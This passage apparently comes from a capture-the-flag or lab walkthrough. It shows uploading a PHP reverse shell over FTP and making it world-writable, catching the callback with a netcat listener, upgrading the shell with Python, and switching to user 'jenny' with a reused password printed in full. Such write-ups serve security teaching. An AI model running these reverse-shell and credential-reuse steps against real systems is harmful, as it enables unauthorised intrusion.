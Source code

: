 Now, let's upload our reverse shell and give it all privileges:

~~~
ftp> put rev.php 
local: rev.php remote: rev.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (106.8894 MB/s)
ftp> chmod 777 rev.php
200 SITE CHMOD command ok.
~~~

## Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

Let's start a listener on port 4444 (or whatever port you have specified in the PHP reverse shell).

~~~
kali@kali:/data/hacked/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
~~~

And call our reverse shell:

~~~
kali@kali:/data/hacked/files$ curl -s http://10.10.255.63/rev.php
~~~

You should now have a reverse shell.

~~~
kali@kali:/data/hacked/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.255.63] 48734
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 06:12:03 up 57 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@wir3:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## Become root!

Once connected as `www-data`, we want to move laterally to `jenny` using the password found previously (same password as for FTP).

~~~
www-data@wir3:/$ su jenny
Password: 987654321

jenny@wir3:/$ 
~~~

